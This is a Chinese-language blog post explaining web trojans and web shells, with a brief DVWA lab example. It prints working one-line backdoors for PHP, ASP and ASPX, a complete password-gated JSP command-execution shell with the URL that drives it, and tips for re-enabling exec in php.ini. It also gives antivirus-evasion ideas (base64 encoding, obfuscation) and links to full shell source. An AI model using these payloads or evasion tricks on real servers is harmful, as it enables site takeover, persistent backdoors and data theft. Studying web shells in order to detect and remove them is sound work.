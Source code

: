 ```yaml
---
title: 木马详解
date: 2023-07-11 09:42:24
updated: 2023-07-11 09:42:24
tags: [网络安全，木马]
categories: 网络安全
keywords: 木马
description:
top_img:
comments:
cover:
toc:
toc_number:
toc_style_simple:
copyright:
copyright_author:
copyright_author_href:
copyright_url:
copyright_info:
mathjax:
katex:
aplayer:
highlight_shrink:
aside:
---
```


# 最全木马详解

简单木马种类：asp、php、jsp、aspx
变形木马：htaccess，cer
先来看看最简单的一句话木马：
   <?php @eval($_POST['attack']);?>
- 代码解释：
1. @表示后面即使执行错误，也不报错：由于一个变量没有定义，就被拿去使用了，服务器就善意的提醒：Notice，你的xxx变量没有定义，会暴露密码，所以我们加上@
2. eval（）函数表示括号内的语句字符串什么的全都当做代码执行。想执行什么代码，就把什么代码放进变量attack位置下。如果想查看目标硬盘内容，可以用php函数：opendir()和readdir()等等。想上传内容就用php函数：move_uploaded_file。想执行cmd命令，则用exec()。前提是php配置文件php.ini里，关掉安全模式safe_mode = off，然后再看看禁用函数列表 disable_functions = proc_open, popen, `exec` , system, shell_exec ，把exec去掉，确保没有exec（有些cms为了方便处理某些功能，会去掉的）。
3. $_POST['attack']表示从页面中获得attack这个参数值。

- 入侵条件
1. 木马上传成功，未被杀；
2. 知道木马的路径在哪；
3. 上传的木马能正常运行。

- 常见形式
常见的一句话木马：
php的一句话木马： <?php @eval($_POST['pass']);?>
asp的一句话是：   <%eval request ("pass")%>
aspx的一句话是：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
jsp的一句话是：




- 木马免杀

一般网站管理员都会安装杀毒软件，即使木马上传成功，一段时间之后也会被杀掉，所以我们要对木马进行免杀操作，把它伪装的不像一个木马躲过杀毒软件。所以我们接下来要进行木马免杀操作。

【免杀思路】：

1、将源代码进行再次编码。
2、将那一句话木马进行base64编码，存放在"乱七八糟"的代码中。
3、还是一句话木马，进行变形，只不过，这次的变形是在数组中键值对变形。很强。

小马和大马

小马和大马都是网页类型中的一种后门，是通过用来控制网站权限的，那最主要的区别就是小马是用来上传大马的。通过小马上传大马，这时候有个疑问了，那不是多此一举了，为什么要用小马来上传大马，而干嘛不直接上传大马用好了。其实这里是因为小马体积小，有比大马更强的隐蔽优势，而且有针对文件大小上传限制的漏洞，所以才有小马，小马也通常用来做留备用后门等。
网页小马

小马体积非常小，只有2KB那么大，隐蔽性也非常的好，因为小马的作用很简单，就是一个上传功能，就没有其它的了，它的作用仅仅是用来上传文件，所以也能过一些安全扫描。小马是为了方便上传大马的，因为很多漏洞做了上传限制，大马上传不了，所以就只能先上传小马，再接着通过小马上传大马了。小马还可以通过与图片合成一起通过IIS漏洞来运行。

Java语言编写的后台咱们使用JSP木马，与前面的一句话木马不同，菜刀中JSP木马较长，以下是一个简单的JSP小马：

<%
    if("123".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>



成功上传后如果能解析的话，请求：http://服务器IP:端口/Shell/cmd.jsp?pwd=123&i=ipconfig 即可执行命令。
网页大马

大马的体积就比较大了，通常在50K左右，比小马会大好多倍，但对应的功能也很强大，包括对数据的管理，命令的操作，数据库的管理，解压缩，和提权等功能，都非常强大。这种大马一旦网站被种了，网站基本就在这个大马控制之中。大马的隐蔽性不好，因为涉及很多敏感代码，安全类程序很容易扫描到。

    中国菜刀的一句话不算，菜刀一句话通过客户端来操作也非常强大，一句话的代码可以和大马实现的一样。我们这里说的小马和大马是指网页类型中的，小马就是为了配合上传大马的，这是它最主要的作用，还有就是小马可以当做备用的后门来使用，一般大马容易被发现，而小马则更容易隐藏在系统的文件夹中。

来看看一个大马利用实例：在虚拟机中往DVWA上传PHP大马（源码附在最后）:
访问木马文件123.php，提交密码123456后进入大马的功能列表，下图所示为文件管理功能：
在这里插入图片描述继续访问下命令执行功能（其他功能不展示了）：


    最后附上该PHP大马的代码（代码太长，百度云盘链接）：https://pan.baidu.com/s/1XGUp5Q_Q2zn46kcQxE5M3A


WebShell

Webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的。

webshell根据脚本可以分为PHP脚本木马，ASP脚本木马，也有基于.NET的脚本木马和JSP脚本木马。在国外，还有用python脚本语言写的动态网页，当然也有与之相关的webshell。 webshell根据功能也分为大马、小马和一句话木马，例如：<%eval request(“pass”)%>通常把这句话写入一个文档里面，然后文件名改成xx.asp。然后传到服务器上面。用eval方法将request(“pass”)转换成代码执行，request函数的作用是应用外部文件。这相当于一句话木马的客户端配置。具体分类如下图：
